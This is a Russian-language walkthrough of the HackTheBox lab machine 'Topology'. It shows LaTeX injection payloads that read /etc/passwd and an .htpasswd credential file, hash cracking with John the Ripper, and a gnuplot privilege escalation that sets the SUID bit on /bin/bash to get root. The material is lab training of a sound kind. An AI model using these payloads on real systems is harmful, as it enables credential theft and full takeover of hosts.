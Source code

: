 # Topology
:white_check_mark:  [**LaTeX file read explot**](#LaTeX_file_read)

:white_check_mark:  [**Gnuplot(privesc)**](#Gnuplot(privesc))

___

## Port scan
Сканируем ip командой:
```
nmap -sC -sV topology.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Miskatonic University | Topology Group
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Просканируем домен на наличие поддоменов.
```
gobuster vhost -u topology.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -t 50 --append-domain
```

В результате мы получаем два поддомена: **dev.topology.htb** и **stats.topology.htb**. 

Главная страница сайта:

![](1.png)

![](../assets/Topology/1.png)

<a name="LaTeX_file_read"></a>

## LaTeX file read explot

На главной странице сайта мы можем найти ссылку на поддомен с LaTeX: **latex.topology.htb**. Добавляем его в /etc/hosts и переходим на сайт.

![](2.png)

![](../assets/Topology/2.png)

На сайте [HackTricks](https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection) мы можем найти способ эксплуатировать уязвимость в LaTeX.

```
$\lstinputlisting{/etc/passwd}$
```

![](3.png)

![](../assets/Topology/3.png)

Ранее мы нашли поддомен dev.topology.htb. Попробуем прочитать файл .htpasswd, которых содержит имена пользователей и пароли.

```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

![](4.png)

![](../assets/Topology/4.png)

Расшифруем хэш с помощью John the Ripper:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![](5.png)

![](../assets/Topology/5.png)

<a name="Gnuplot(privesc)"></a>

## Gnuplot(privesc)

Подключаемся по ssh с известными данными пользователя.

Прокинем linpeas на атакуемую машину и запустим скрипт. С помощью него мы можем обнаружить, что на машине используется gnuplot, файлы которого лежат в /opt.

![](6.png)

![](../assets/Topology/6.png)

На данной [странице](https://stackoverflow.com/questions/27909281/how-to-run-a-system-command-in-gnuplot) мы можем узнать, что мы можем использовать системные команды через gnuplot.

Прокинем на машину pspy64, чтобы просмотреть процессы.
 
![](7.png)

![](../assets/Topology/7.png)

Мы можем заметить что gnuplot запускает файлы с названиями *.plt которые лежат в директории /opt/gnuplot. Создадим свой файл и внесем в него вредоносный код, который позволит повысить привилегии.

```
echo 'system "chmod u+s /bin/bash"' > /opt/gnuplot/1.plt
```

Ждем некоторое время и прописываем команду:

```
bash -p
```

Мы получили root.